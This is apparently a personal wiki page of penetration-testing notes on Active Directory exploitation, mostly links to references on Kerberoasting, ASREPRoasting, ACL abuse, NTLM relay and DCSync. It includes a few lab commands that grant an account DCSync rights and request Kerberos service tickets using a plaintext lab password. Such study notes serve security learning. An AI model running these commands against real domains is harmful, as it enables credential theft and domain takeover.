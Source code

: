```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Active Directory Exploitation Strategies
 - [ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)
 - **WriteDACL**
   - [WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)
 - [Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
 - [NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)
 - [DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
   - **With PowerView**:
    ```
    whoami /all
    Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
    net group "Exchange Windows Permissions" /add svc-alfresco
    Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
    Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
    Get-DomainUser -Identity svc-alfresco
    Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
    ```
 - [SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)
   - ```gppdecrypt```
 - [Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)
   - GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100```
   - Requires an account user with a service principal name (SPN)

## Active Directory Tools
 - [PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
   -  ```. .\powerview.ps1```
 - [BloodHound CE](https://github.com/SpecterOps/BloodHound)
 - **NSE**
   - ```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```
 - **SMB**
   - Enum4Linux
   - SMBMap
   - smbclient
   - smbclient.py (Impacket)
   - [NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)
   - [SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)

## Impacket Tools
  - **PSExec**
    - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
    - Kerberos Pre-authentication disabled (ASREPRoasting)
 
## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
